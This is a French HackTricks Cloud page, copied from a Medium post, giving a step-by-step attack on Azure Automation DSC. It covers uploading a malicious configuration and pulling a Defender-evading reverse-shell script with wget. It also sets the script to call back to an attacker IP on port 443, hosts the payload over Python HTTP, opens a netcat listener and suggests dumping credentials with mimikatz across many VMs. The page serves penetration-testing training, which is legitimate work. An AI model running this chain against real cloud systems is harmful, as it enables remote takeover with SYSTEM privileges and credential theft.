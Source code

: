 # Az - Configuration d'état RCE

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Ce post a été copié de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Préparation de l'infrastructure du serveur distant (C2) <a href="#f0fa" id="f0fa"></a>

Je vais héberger une version allégée du payload Nishang Invoke-PowerShellTcp.ps1 depuis le serveur distant "40.84.7.74", qui est la machine Kali. Le nom du payload sera "RevPS.ps1". Pour éviter que le script Nishang soit supprimé par Windows Defender pour une raison quelconque (peut-être préférez-vous déposer le fichier sur le disque), j'ai ici une version allégée que vous pouvez utiliser qui contournera Defender : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Ceci sera hébergé par un simple serveur Python Simple sur la machine Kali.

### Étape 1 — Créer des fichiers <a href="#89de" id="89de"></a>

Nous devrons créer un autre fichier de configuration DSC. Un modèle peut être téléchargé ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Ce fichier de configuration utilisera la même fonction d'écriture de fichier que nous avons précédemment utilisée. Cette fois, le contenu comprend du code pour télécharger et exécuter un payload depuis notre serveur distant. De plus, nous utilisons une fonction de tâche planifiée disponible dans le module _ComputerManagementDsc_. La fonction de tâche planifiée jouera un rôle clé dans l'exécution et nous fournira des privilèges SYSTEM plus tard.

Nous téléchargerons également un script qui sera utilisé pour publier notre configuration sur la VM. Il se trouve ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Ces fichiers serviront de modèle. **Vous devrez remplir les noms de variables et les paramètres avec ce que vous utilisez**. Cela inclut les noms de ressources, les chemins de fichiers et les noms de serveurs/payloads externes que vous utilisez. Veuillez vous référer aux commentaires dans le code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Étape 2 — Zipper le fichier de configuration <a href="#c2c2" id="c2c2"></a>

Avec nos deux fichiers créés, nous allons zipper le fichier **‘reverse\_shell\_config.ps1’** afin de pouvoir l'envoyer au compte de stockage
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Étape 3 — Définir le contexte de stockage et téléverser <a href="#bed9" id="bed9"></a>

Encore une fois, nous allons configurer le contexte de notre compte de stockage, ce que j'ai déjà fait. J'ai déjà un conteneur nommé '**azure-pentest**', c'est donc là que je vais publier le mien :
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Étape 4 — Préparation de la machine Kali <a href="#20fb" id="20fb"></a>

Dans notre machine Kali, nous pouvons simplement utiliser _wget_ pour télécharger notre payload PowerShell. Le script brut de reverse-shell se trouve ici : [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Nous devons modifier le script de reverse-shell en y ajoutant nos paramètres, afin que la VM Windows sache où se connecter une fois qu'il est exécuté. Dans mon cas, j'ajoute ce qui suit :
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Étape 5 — Publier le fichier de configuration <a href="#9ad6" id="9ad6"></a>

Nous allons maintenant exécuter notre fichier de configuration. J'ai configuré le mien pour qu'il soit publié sur le Bureau pour une meilleure visualisation, cependant, il peut être publié pratiquement n'importe où. Après quelques minutes, nous verrons que le script de reverse-shell a été publié !

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Étape 6 — Héberger le Payload et Configurer l'Écouteur <a href="#c55f" id="c55f"></a>

Une fois que nous avons publié la configuration, nous pouvons simultanément démarrer un SimpleHTTPServer Python sur le port 80 pour héberger le payload, ainsi qu'un écouteur netcat afin de capter la connexion :
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Nous constatons que la tâche planifiée a été exécutée et notre payload a été récupéré et exécuté en mémoire avec des privilèges de niveau **SYSTEM** !

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusion <a href="#1ec2" id="1ec2"></a>

Cela ouvre désormais la porte à de nombreuses possibilités. Puisque nous avons un shell fonctionnant en tant que **SYSTEM,** nous pouvons extraire les identifiants avec mimikatz (potentiellement risqué selon la maturité de l'EDR pour les ressources cloud). Si vous extrayez des identifiants, il y a de fortes chances qu'ils puissent être réutilisés ailleurs sur différentes ressources. Enfin, un point important à retenir est que, au lieu de limiter cela à une seule VM, vous avez maintenant la capacité de potentiellement appliquer cette configuration à plusieurs VM.

Sur cette note, cela conclut nos aventures avec Azure Automation DSC ! J'espère que vous vous êtes amusés, que vous avez beaucoup appris et que vous continuerez à développer votre propre créativité.

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
